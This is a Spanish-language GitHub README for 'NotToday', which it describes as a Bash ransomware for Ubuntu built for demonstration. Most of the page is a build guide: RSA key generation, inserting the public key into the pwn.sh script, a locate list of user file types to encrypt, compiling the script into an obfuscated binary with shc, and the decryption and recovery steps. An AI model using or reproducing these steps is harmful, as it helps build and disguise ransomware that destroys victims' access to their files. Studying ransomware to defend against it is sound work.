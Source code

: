 # NotToday
[![Build Status](https://travis-ci.org/joemccann/dillinger.svg?branch=master)](https://travis-ci.org/joemccann/dillinger)

NotToday en un ransomware programado en Bash Scripting de uso para distribuciones Ubuntu y derivados. Creado para la demostracion del funcionamiento de un ransomware y el impacto que este puede desmebocar en un computador. Así mismo el codigo aquí expuesto esta sujeto a cambio y actualizaciones de manera que se logre un malware mucho mas completo.

<center>https://raw.githubusercontent.com/EduardoDesdes/NotToday/master/ntd.jpeg</center>

## Configuracion Inicial
### Creacion de llaves RSA
Creamos una llave privada RSA aleatoria de una cantidad especifica.

    $ openssl genrsa -out clave.pem 4096

Luego creamos la llave publica mediante la llave privada.

    $ openssl rsa -in clave.pem -out clave.pub.pem -outform PEM -pubout
    
### Insertar la llave publica en el codigo
Para esto debemos editar el archivo ***pwn.sh*** por en contenido de la llave publica.
```bash
#Clave Publica
echo "-----BEGIN PUBLIC KEY-----" >> clave.pub.pem
...
...
echo "-----END PUBLIC KEY-----" >> clave.pub.pem
```

### Seleccionar que formato de ficheros desea encriptar
```bash
#Generar los archivos a encriptar
locate -r "\.jpg$" > /tmp/list.ntm
locate -r "\.jpeg$" >> /tmp/list.ntm
locate -r "\.png$" >> /tmp/list.ntm
locate -r "\.pdf$" >> /tmp/list.ntm
locate -r "\.odt$" >> /tmp/list.ntm
locate -r "\.rar$" >> /tmp/list.ntm
locate -r "\.zip$" >> /tmp/list.ntm
locate -r "\.txt$" >> /tmp/list.ntm
locate -r "\.conf$" >> /tmp/list.ntm
```

## Creacion del binario para ejecucion
Para crear el binario usaremos una herramienta llamada ***shc***.

    $ shc -v -r -f pwn.sh
    
Nos encontraremos con dos archivos, ***pwd.sh.x*** y ***pwn.sh.c***.

- ***pwd.sh.x***: El archivo ejecutable del ransomware.
- ***pwn.sh.c***: El script en c del ransomware.

## Recuperar los ficheros encriptados
Al realizarse satisfactoriamente el encriptado de los ficheros el ransomware deja un fichero denominado ***enviame.enc***, se deberá colocar en la misma carpeta que el archivo ***dcry.sh*** y la llave privada ***clave.pem***. Y ejecutar el siguiente comando.

    $ bash dcry.sh

El cual generará un fichero llamado ***key.txt***. Y ahora usaremos el fichero ***repa.sh*** para recuperar todos los archivos encriptados usando la key obtenida.

    $ bash repa.sh

## Creditos

Autor: ***Eduardo Sarria (Desdes)***

Facebook: [https://www.facebook.com/eduardo.s.desdes](https://www.facebook.com/eduardo.s.desdes)

Linkedin: [https://www.linkedin.com/in/eduardodesdes/](https://www.linkedin.com/in/eduardodesdes/)

OpenBugBounty: [https://www.openbugbounty.org/researchers/EduardoDesdes/](https://www.openbugbounty.org/researchers/EduardoDesdes/)